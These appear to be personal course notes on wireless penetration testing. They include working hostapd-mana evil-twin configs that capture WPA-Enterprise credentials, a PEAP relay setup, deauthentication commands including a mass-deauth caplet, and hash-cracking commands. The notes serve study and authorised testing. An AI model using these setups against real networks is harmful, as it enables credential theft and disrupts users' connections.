# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=1
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g
# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1
# Key workaround for Win XP
eapol_key_index_workaround=0
# EAP user file we created earlier
eap_user_file=/etc/hostapd-mana/mana.eap_user
# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh
# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP
# Enable Mana WPE
mana_wpe=1
# Store credentials in that file
mana_credout=/tmp/hostapd.credout
# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1
# EAP TLS MitM
mana_eaptls=1
...
We'll now need to create the EAP user file referenced in the configuration file:
/etc/hostapd-mana/mana.eap_user
The file should contain the following:
...
* PEAP,TTLS,TLS,FAST
"t" TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2 "pass" [2]
...
Crack Password
asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4 -W /usr/share/john/password.lst
Other Notes
WPA enterprise
Each user uses his own user and password (if client certificates are not used). Each user's traffic is encrypted with a different key. Connection in windows:
Looks like a captive portal but it's safer. In WPA enterprise we attack the clients, not the AP nor the RADIUS
Companies usually create their own CA to validate their certificates and make our forged certificates fail. For that they need to install a company certificate in every client
EAP-TTLS -> server authenicates with certificate. Client can optionally use certificate. There are versions EAP-TTLSv0 and EAP-TTLSv1. Inner auth methods: PAP, CHAP, MSCHAP, MSCHAPv2
PEAP vs TTLS: EAP-TTLS has option to use client side certificate EAP-TTLS-PAP support (cleartext passord) EAP-PEAP is a wrapper around EAP carring the EAP for authenication TTLS is a wrapper around TLVs (type length values), which are RADIUS attributes
The server gives to the client a certificate, to make sure that the client sends credentials to a trusted server
EAP
WPA-Enterprise, authentication via a RADIUS server, not on the AP
We can host a RADIUS server with freeradius to handle authentication and hostap with custom certificates to create en evil twin of a WPA-Enterprise network
EAP (RADIUS)
WPA Enterprise uses Extensible Authentication Protocol (EAP). EAP is a framework for authentication, which allows a number of different authentication schemes or methods.
Authentication is done using a Remote Authentication Dial-In User Service (RADIUS) server. The client authenticates using a number of EAP frames, depending on the agreed upon authentication scheme, which are relayed by the AP to the RADIUS server. If authentication is successful, the result is then used as Pairwise Master Key (PMK) for the 4-way handshake, as opposed to PSK, where the passphrase is derived to generate the PMK.
Authentication to a RADIUS server with most common EAP methods, requires the use of certificates on the server side at the very least. Some older, now deprecated EAP methods don't require certificates. Although a number of authentication schemes are possible, just some of them are commonly used, due to their security, and integration with existing OS. It is common to use a username and password to authenticate, which could be tied to domain credentials.
We'll go over a few EAPs commonly used on Wi-Fi networks.
EAP-TLS
EAP Transport Layer Security (EAP-TLS) is one of the most secure authentication methods, as it uses certificates on the server side and client side, instead of login and passwords, so the client and server mutually authenticate each other.
EAP-TTLS
EAP Tunneled Transport Layer Security (EAP-TTLS), as the name suggests, also uses TLS. As opposed to EAP-TLS, it does not necessarily need client certificates. It creates a tunnel and then exchanges the credentials using one of the few possible different inner methods (also called phase 2), such as Challenge-Handshake Authentication Protocol (CHAP), Authentication Protocol (PAP), Microsoft CHAP (MS-CHAP), or MS-CHAPv2.
PEAP (MS-CHAPv2 and others)
Similarly to EAP-TTLS, Protected Extensible Authentication Protocol (PEAP) also creates a TLS tunnel before credentials are exchanged. Although different methods can be used within PEAP, MS-CHAPv2 is a commonly used inner method.
PEAP and EAP-TLS mostly differ on how the data is exchanged inside the TLS tunnel.
PEAP hashes are of the type netNTLMv1, that can be cracked with -m 5500 in hashcat
Attack
The attack against WPA Enterprise consists in setting up a fake Access Point that imitates the target Access Point, so that clients connect to ours and in the process we capture hashes of their passwords, that can be cracked.
Optional: imitating the server certificates
While it usually is not necessary, we will create a certificate similar to the one from the RADIUS server that the AP serves to its clients.
if no certificates are captured when the client reauthenticates, deauthenticate him again
We can check the validity by using openssl x509 -in CERT_FILENAME -noout -enddate where CERT_FILENAME is the .pem or .crt file.
We can now disable monitor mode
wireshark filter for packets with certificate: tls.handshake.certificate [[8 - wireshark#Tshark]]
With wireshark -> Packet Details > Extensible Authentication Protocol > Transport Layer Security > TLSv1 Record Layer: Handshake Protocol: Certificate > Handshake Protocol: Certificate > Certificates > Certificate. For each of them, right click > Export Packet Bytes. Alternatively, check with [[8 - wireshark#Tshark]]
install freeradius
sudo apt install freeradius
Modify in folder /etc/freeradius/3.0/certs the files ca.cnf (certificate_authority section) and server.cnf (server section).
Run the following to regenerate diffie hellman with a 2048 bit key and create the certificates
# in /etc/freeradius/3.0/certs folder:
rm dh
make
The client error during the make command can be ignored, it's not necessary to create client certificates to get their hashes when they connect to us.
Run the command make destroycerts if you had previously created certificates, to start anew
If you don't have it, install hostapd-mana to create the fake Access Point:
sudo apt install hostapd-mana
Also create the file /etc/hostapd-mana/mana.eap_user. Add the following contents to increase the chances of clients being able to connect to our fake AP
* PEAP,TTLS,TLS,FAST
"t" TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2 "pass" [2]
hostapd-mana for wpa-enterprise
TIPS:
- For testing you may need to change your client settings and turn off and on the wifi, while hostapd-mana remains running all the time, capturing creentials when connection attempts happen, and only if the configuration of the client is the right one for hostapd-mana to get hashes or credentials (EAP connections). at times hostapd-mana may behave strangely after many failed connections, just rerun it, but remember that most of the tweaking happens on the client when messing with the configuration, or if we want to generate traffic, just keep hostapd-mana running and turn off and on wifi on the client after changing the config.
- The channel doesn't matter, but if we use the same as the original it's easier to monitor both networks at once with airodump
- Disable monitor mode to host an AP with hostapd-mana
- If we don't clone the BSSID the channel we use doesn't matter, but if we clone it, we must use a different channel to avoid errors
- mana adds functions that hostapd doesn't have
Options in the configuration files of hostapd-mana
- mana_wpe=1 -> to sniff credentials
- mana_eapsuccess=1 -> To let the victim know that he was successful when connecting to us
- mana_credout=
<file>-> Saves creds to a file - eap_server=1 -> Use the internal EAP server, not an external one
- enable_mana=1 -> karma attack, respond to every client that tries to connect to us, making him believe that we are the SSID that he is probing
interface=wlan1
ssid=<ESSID>
hw_mode=g
channel=6
auth_algs=3
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
ieee8021x=1
eap_server=1
eap_user_file=hostapd.eap_user
ca_cert=/root/certs/ca.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
dh_file=/root/certs/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
mana_credout=hostapd.creds
host evil twin with
hostapd_mana mana.conf
Attack PEAP-GTC
interface=wlan1
ssid=<target ESSID>
channel=6
hw_mode=g
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
auth_algs=3
ieee8021x=1
eapol_key_index_workaround=0
eap_server=1
eap_user_file=hostapd.eap_user
ca_cert=/root/certs/ca.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
private_key_passwd=
dh_file=/root/certs/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
karma attack-> So that many clients can connect to us simultaneously
interface=wlan1
ssid=<target ESSID>
channel=6
hw_mode=g
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
auth_algs=3
ieee8021x=1
eap_server=1
eap_user_file=hostapd.eap_user
ca_cert=/root/certs/ca.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
dh_file=/root/certs/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
enable_mana=1
mana_credout=hostapd.creds
hostapd-mana returns strings to crack WPA-EAP in the following formats - asleap - john - hashcat I have found that sometimes one tool isn't able to crack it and other is (WTF?) so if one doesn't find the password try with other and the same dictionary
PEAP relay attack
More info: https://sensepost.com/blog/2019/peap-relay-attacks-with-wpa_sycophant/ https://www.youtube.com/watch?v=3FSLM1VY0SQ https://www.youtube.com/watch?v=XYgBw8mx9Jw
3 interfaces are needed:
- wlan0 for hostapd-mana
- wlan1 for sycophant
- wlan2 recon and for deauthenticating clients
wlan0
file for hostapd-mana:
interface=wlan0
ssid=<target ESSID>
channel=6
hw_mode=g
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
auth_algs=3
ieee8021x=1
eapol_key_index_workaround=0
eap_server=1
eap_user_file=hostapd.eap_user
ca_cert=/root/certs/ca.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
private_key_passwd=
dh_file=/root/certs/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
enable_mana=1
enable_sycophant=1
sycophant_dir=/tmp/
Run hostapd:
hostapd-mana ap.conf
wlan1
sycophant configuration file:
network={
ssid="<target ESSID>"
# The SSID you would like to relay and authenticate against.
scan_ssid=1
key_mgmt=WPA-EAP
# Do not modify
identity=""
anonymous_identity=""
password=""
# This initialises the variables for me.
# -------------
eap=PEAP
phase1="crypto_binding=0 peaplabel=0"
phase2="auth=MSCHAPV2"
# Dont want to connect back to ourselves,
# so add your rogue BSSID here.
bssid_blacklist=<hostapd-mana MAC>
}
In the last line we use the MAC of the interface with hostapd-mana (wlan0 in this case)
Run with
./wpa_sycophant.sh -c wpa_sycophant_example.conf -i wlan1
wlan2
Deauth a client connected to the target network so that it (hopefully) connects to our rogue AP, which will relay traffic to sycophant
aireplay-ng -0 4 -a <target BSSID> -c <target client MAC> wlan2
We should see the connection in sycophant if everything goes well, and then in wlan2 we can do the following to get an IP
dhclient -v wlan1
EAPhammer:
Tool to create fake APs
./eaphammer -i wlan1 --channel 6 --auth wpa-eap --essid DefenseConference --creds
# karma attack, make every client believe that we are the AP(s) that he is probing. The difference between karma attack and evil twin is that karma uses the probe requests sent by clients (from their preferred network list, PNL) and in evil twin we must guess the APs they want to connect to
./eaphammer -i wlan1 --channel 6 --auth wpa-eap --essid DefenseConference --creds --karma
EAP MD5 crack
./eapmd5pass -w dict -r eapmd5-sample.dump
Chapter 8 - Rogue AP
My Notes
Discovery
sudo airodump-ng -w discovery --output-format pcap wlan0mon
To get more information, let's open the output Pcap in Wireshark by running wireshark discovery-01.cap.
To find the beacon for the target AP, we can use a filter to limit the types of packets displayed. First, we can display only beacon packets by using the filter:
1) wlan.fc.type_subtype == 0x08.
1) Management frames use "0" as the type and beacon frames are set to "8" as the subtype.
2) We can also only target the Mostar SSID by:
1) adding &&
2) and using the filter wlan.ssid == "Mostar".
Attack
cat Mostar-mana.conf
interface=wlan0
ssid=Mostar
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP CCMP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/kali/mostar.hccapx
sudo hostapd-mana Mostar-mana.conf
sudo aireplay-ng -0 0 -a FC:7A:2B:88:63:EF wlan1mon
aircrack-ng mostar.hccapx -e Mostar -w /usr/share/john/password.lst
Other Notes
Creating a Rogue AP
Evil twins can be in any channel, except if we clone the BSSID of the AP we want to impersonate, in which case the channel must be different. But APs with different BSSID and equal ESSID can coexist in the same channel.
If we get a connection in an evil twin, the connected client won't have internet access if we don't give him an IP with a dhcp server.
with hostapd, we need to be listening with airodump (on another wifi interface) at the same time that we host the fake ap, to capture handshakes of clients that try to connect to us, despite the PSK mismatch (since we don't know the real PSK but will crack it from their handshake to us)
Deauth a client if he doesn't connect to our AP
sudo aireplay-ng --deauth 4 -a <bssid> -c <client_MAC> wlan0mon
hostapd / hostapd-mana
hostapd-mana is an enhanced version of hostapd. Both are used for hosting fake APs, but mana includes more options to do things like dump passwords obtained from the handshake. Hostapd-mana can read hostapd config files, but also includes other options
Install
sudo apt install hostapd-mana
sudo apt install hostapd-mana
Run
hostapd a.conf
hostapd-mana a.conf
Parameters:
driver=nl80211-> always the same for all linux deviceshw_mode=g-> 2.4 GHz y 54 Mb- auth_algs (this is for WEP, for WPA use the equivalent
wpaparameter->auth_algs=0->OPENauth_algs=1->WEPauth_algs=2-> Both
wep_key0<- we can use up to 4- Type of security
wpa=3-> activate both WPA and WPA2wpa=2-> activate only WPA2wpa=1-> activate only WPA
Type of authentication:
wpa_key_mgmt=WPA-PSKwpa_passphrase=<passphrase>-> passphrase in the case of PSK auth, we can set anything here, we don't care it's wrong
Encryption type (if the target is exclusiveliy WPA1 or WPA2 use just one of the following):
wpa_pairwise=TKIP CCMP-> TKIP or CCMP encryption with WAP1rsn_pairwise=TKIP CCMP-> TKIP or CCMP encryption with WPA2
- mana_wpaout-> where to save the captured handshakes (in a Hashcat hccapx format).
hostap with no encryption
interface=wlan1
ssid=hostel-A
hw_mode=g
channel=6
driver=nl80211
hostap with wep
interface=wlan1
hw_mode=g
channel=6
driver=nl80211
ssid=hostel-A
auth_algs=1
wep_default_key=0
wep_key0="54321"
hostap with WPA-PSK
interface=wlan1
hw_mode=g
channel=6
driver=nl80211
ssid=HomeAlone
auth_algs=1
wpa=1
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP
wpa_passphrase=welcome@123
hostap with WPA2-PSK
interface=wlan1
hw_mode=g
channel=6
driver=nl80211
ssid=Lost-in-space
auth_algs=1
wpa=1
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP
wpa_passphrase=beautifulsoup
# SSID 2
bss=wlan1_0
ssid=LOCOMO-Mobile-hotspot
auth_algs=1
wpa=1
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP
wpa_passphrase=beautifulsoup
alternative
interface=wlan1
hw_mode=g
channel=6
driver=nl80211
ssid=Lost-in-space
auth_algs=1
wpa=2
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
wpa_passphrase=beautifulsoup
Hosting several APs
Two different ESSIDs with the same wifi antenna (interface wlan1). With hostap, if we want to simulate several ESSIDs, the first one must use the keyword "interface" and the real interface name, and the next ones use the keyword "bss" and we use fictitious names, like wlan1_0. This can be used if a client probes different clients.
# SSID 1
interface=wlan1
driver=nl80211
ssid=dex-net
wpa=2
wpa_passphrase=123456789
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
channel=1
# SSID 2
bss=wlan1_0
ssid=dex-network
wpa=2
wpa_passphrase=123456789
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
channel=1
interface=wlan0
ssid=<ESSID>
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/kali/output.hccapx
Chapter 9 - Wireshark
Filters
- tls.handshake.certificate -> packets containing certificates (useful in WPA enterprise)
- wlan.fc.type_subtype == 0x08 -> beacon frames
- wlan.ssid == "XYZ" -> specify ESSID
- wlan.bssid == 00:01:20:43:21:12 -> filter by BSSID
- wlan.fc.type == X -> X represents frame types: 0 (management), 1 (control), 2 (data), and 3 (extension)
- wlan.fc.subtype == X -> X represents frame subtypes
- wlan.fc.type_subtype in {0x0 0x1 0xb} -> EAPoL frames
- wlan.addr == xx.xx.xx.xx.xx.xx -> search for a certain client MAC address
More examples: https://www.wifi-professionals.com/2019/03/wireshark-display-filters
Tshark
# show packets in a file
sudo tshark -r wpa-eap-tls.pcap
# show captured packets applying a filter for packets containing certificates exchanged during handshaek
sudo tshark -r wpa-eap-tls.pcap -Y "tls.handshake.certificate"
# show all data (-x)
sudo tshark -r wpa-eap-tls.pcap -Y "tls.handshake.certificate" -x
# show all fields in capture files (the ones filtered with -Y)
tshark -r b64.pcap -Y "tls.handshake.certificate" -T pdml
# show a specific field (in this case, the certificate)
tshark -r b64.pcap -Y "tls.handshake.certificate" -T fields -e "tls.handshake.certificate"
# full plaintext dump of packet (the same that you can see on wireshark)
tshark -nr b64.pcap -2 -R "ssl.handshake.certificate" -V
# in JSON format, easier to read:
tshark -nr b64.pcap -2 -R "ssl.handshake.certificate" -T json -V
Tips
- To transfer a capture file you can transfer it via scp, or encode it to base64 (
base64 wpa-eap-tls.pcap) , copy the base64 displayed in screen (careful with large files, could result in data loss if the terminal doesn't contain many buffer lines) to a local file and decode it locally (cat b64.txt | base64 -d > b64.pcap)
Chapter 10 - bettercap
Start
sudo apt install bettercap
sudo bettercap -iface wlan0
Discover
wifi.recon on
wifi.recon.channel 6,11
set ticker.commands "clear; wifi.show"
wifi.recon on
ticker on
Show Clients
wifi.recon c6:2d:56:2a:53:f8
wifi.show
set wifi.show.filter ^c0
wifi.show
set wifi.show.filter ""
set wifi.rssi.min -49
wifi.show
DeAuth a client
wifi.deauth c6:2d:56:2a:53:f8
wifi.deauth ac:22:0b:28:fd:22
wifi.recon off
get wifi.handshakes.file
set wifi.handshakes.file "/home/kali/handshakes/"
set wifi.handshakes.aggregate false
wifi.recon on
wifi.deauth c6:2d:56:2a:53:f8
wifi.deauth AA:BB:CC:DD:EE:FF
set wifi.deauth.skip ac:22:0b:28:fd:22
wifi.deauth c6:2d:56:2a:53:f8
Caplets
cd /usr/share/bettercap/caplets/
cat -n massdeauth.cap
...
1 set $ {by}{fw}{env.iface.name}{reset} {bold}» {reset}
2
3 # every 10 seconds deauth every client from every ap
4 set ticker.period 10
5 set ticker.commands clear; wifi.deauth ff:ff:ff:ff:ff:ff
6
7 # uncomment to only hop on these channels:
8 # wifi.recon.channel 1,2,3
9
10 wifi.recon on
11 ticker on
12 events.clear
13 clear
...
cat -n deauth_corp.cap
...
1 set $ {br}{fw}{net.received.human} - {env.iface.name}{reset} » {reset}
2
3 set ticker.period 10
4 set ticker.commands clear; wifi.show; events.show; wifi.deauth c6:2d:56:2a:53:f8
5
6 events.ignore wifi.ap.new
7 events.ignore wifi.client.probe
8 events.ignore wifi.client.new
9
10 wifi.recon on
11 ticker on
12 events.clear
13 clear
...
sudo bettercap -iface wlan0 -caplet deauth_corp.cap
Web Interface
sudo nft add table inet filter
sudo nft add chain inet filter INPUT { type filter hook input priority 0\; policy drop\; }
sudo nft add rule inet filter INPUT ip saddr 192.168.62.192 tcp dport 443 accept
sudo nft add rule inet filter INPUT ip saddr 192.168.62.192 tcp dport 8083 accept
cat -n /usr/share/bettercap/caplets/https-ui.cap
...
1 # api listening on https://0.0.0.0:8083/ and ui on https://0.0.0.0
2 set api.rest.address 0.0.0.0
3 set api.rest.port 8083
4 set https.server.address 0.0.0.0
5 set https.server.port 443
6
7 # make sure both use the same https certificate so api requests won't fail
8 set https.server.certificate ~/.bettercap-https.cert.pem
9 set https.server.key ~/.bettercap-https.key.pem
10 set api.rest.certificate ~/.bettercap-https.cert.pem
11 set api.rest.key ~/.bettercap-https.key.pem
12 # default installation path of the ui
13 set https.server.path /usr/share/bettercap/ui
14
15 # !!! CHANGE THESE !!!
16 set api.rest.username offsec
17 set api.rest.password wifu
18
19 # go!
20 api.rest on
21 https.server on
...
sudo bettercap -iface wlan0 -caplet https-ui
Chapter 11 - Kismet
Setup
sudo apt install kismet
ls -al /etc/kismet/
sudo mkdir /var/log/kismet
Start
cd ~
sudo kismet -c wlan0 --no-ncurses
KISMET - Point your browser to http://localhost:2501 (or the address of this system)
^C
ls -al /var/log/kismet/
sudo kismet -c wlan0:channels="4,5,6"
^C
sudo kismet --daemonize
Remote Capture
sudo kismet
ssh kali@192.168.62.192 -L 8000:localhost:3501
sudo kismet_cap_linux_wifi --connect 127.0.0.1:8000 --source=wlan0
sudo kismet_cap_linux_wifi --connect 127.0.0.1:8000 --source=wlan0
^C
ssh kali@192.168.62.192 -L 8000:localhost:3501
exit
^C
Log Files
sudo sqlite3 /var/log/kismet/Kismet-20200917-18-45-34-1.kismet
.tables
.schema devices
.headers on
select type, devmac from devices;
.quit
sudo sqlite3 /var/log/kismet/Kismet-20200917-18-45-34-1.kismet "select type, devmac from devices;"
sudo kismet -c Documents/Network_Join_Nokia_Mobile.pcap:realtime=true
^C
Exporting Data
kismetdb_to_pcap --in Kismet-20200917-18-45-34-1.kismet --list-datasources
kismetdb_to_pcap --in Kismet-20200917-18-45-34-1.kismet --out sample.pcapng --verbose
kismetdb_dump_devices --in /var/log/kismet/Kismet-20200917-17-45-17-1.kismet --out sample.json --skip-clean --verbose
Chapter 12 - Helpful Links
-
Practice
-
Other's Notes
-
Tools